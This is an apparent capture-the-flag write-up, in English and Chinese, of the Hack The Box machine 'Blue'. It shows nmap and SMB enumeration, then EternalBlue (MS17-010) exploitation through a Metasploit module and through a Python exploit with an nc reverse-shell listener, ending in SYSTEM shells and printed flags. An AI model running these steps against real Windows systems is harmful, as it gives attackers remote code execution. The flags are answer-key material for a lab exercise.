

**Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.**

```
Blue，展示了 EternalBlue 漏洞的严重性
自公开泄露以来
已被用于多次大规模勒索软件和加密货币挖矿攻击
```

---

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```console
nmap -sC -sV -Pn 10.129.58.31 -vv > nmap_tcp_scan.conf

PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-04-24T08:19:36+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-04-24T07:19:36
|_  start_date: 2024-04-24T06:59:42
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64928/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 24997/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60696/udp): CLEAN (Failed to receive data)
|   Check 4 (port 38001/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: -20m28s, deviation: 34m35s, median: -30s
```

### <span style="color:lightgreen">SMB - TCP 445</span>

```console
smbmap -H 10.129.58.31 -u "0xdf -p "0xdf
[+] Guest session   	IP: 10.129.58.31:445	Name: 10.129.58.31                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY

```

Share Users 可读

```console
smbclient //10.129.58.31/Share
Password for [WORKGROUP\qax]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 14:48:44 2017
  ..                                  D        0  Fri Jul 14 14:48:44 2017

		4692735 blocks of size 4096. 656872 blocks available

smb: \>

smbclient //10.129.58.31/Users
Password for [WORKGROUP\qax]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 07:56:23 2017
  ..                                 DR        0  Fri Jul 21 07:56:23 2017
  Default                           DHR        0  Tue Jul 14 08:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 05:54:24 2009
  Public                             DR        0  Tue Apr 12 08:51:29 2011
```

nothing

### <span style="color:lightgreen">Vulns</span>

检查已知漏洞
```console
nmap -p 445 -script vuln 10.129.58.31
Starting Nmap 7.93 ( https://nmap.org ) at 2024-04-24 08:35 BST
Nmap scan report for 10.129.58.31
Host is up (0.0022s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
```

ms17-010
CVE-2017-0143
永恒之蓝漏洞

WannaCry

## <span style="color:lightblue">Shell as System</span>

EternalBlue是在Windows的SMB服务处理SMB v1请求时发生的漏洞

这个漏洞导致攻击者在目标系统上可以执行任意代码

### <span style="color:lightgreen">Metasploit</span>

```bash
sudo msfconsole -q

windows/smb/ms17_010_eternalblue

set rhosts 10.129.58.31
set lhost 10.10.14.16
exploit
```


```bash
(Meterpreter 1)(C:\Windows\system32) > getuid 
Server username: NT AUTHORITY\SYSTEM
```

```
c:\Users\haris\Desktop>type user.txt
type user.txt
e6ac0ed91c80d1622f0bc6d8adcc3c8d

c:\Users\Administrator\Desktop>type root.txt
type root.txt
384723cece064b898599144837cc390f
```

### <span style="color:lightgreen">Python Script</span>

```console
https://github.com/3ndG4me/AutoBlue-MS17-010

https://sparshjazz.medium.com/hack-the-box-blue-e9c0b0e4b33d

参考博客搭建环境

python2.7 ../eternalblue_exploit7.py 10.129.169.176 sc_x64.bin

sudo nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.169.176.
Ncat: Connection from 10.129.169.176:49158.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

